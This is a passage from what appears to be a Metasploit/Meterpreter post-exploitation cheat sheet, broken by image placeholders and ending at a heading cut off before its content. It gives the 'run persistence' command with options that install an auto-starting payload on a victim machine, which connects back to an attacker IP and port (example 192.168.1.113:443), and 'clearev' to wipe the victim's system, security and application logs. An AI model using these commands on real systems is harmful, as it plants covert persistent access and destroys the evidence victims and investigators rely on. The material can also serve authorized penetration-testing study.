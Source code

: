 run the attack:

![](<../../.gitbook/assets/image (291) (1) (1).png>)

using tor is extremely slow ad your session may timeout, play around with timeout values.

## <mark style="color:red;">Logging</mark>

every command will be logged in a file named console.log in `~/.msf4/logs`

```
se consolelogging true
```

## <mark style="color:red;">Auto Persistence</mark>

```
run persistence –A –L [directory to put payload] -X [connection attempt intervals/sec]  –p [attacker port] –r [attaacker ip]
```

```
-A for auro starting listener
-X for starting at reboot
 
# for help:
run persistance -h 
#erun persistence –A –L c:\\ -X 30 –p 443 –r 192.168.1.113
```

## <mark style="color:red;">Clear Victim System Logs</mark>&#x20;

(system, security & application logs)

```
clearev
```

## <mark style="color:red;">Execute Commands Directly From Memory</mark>
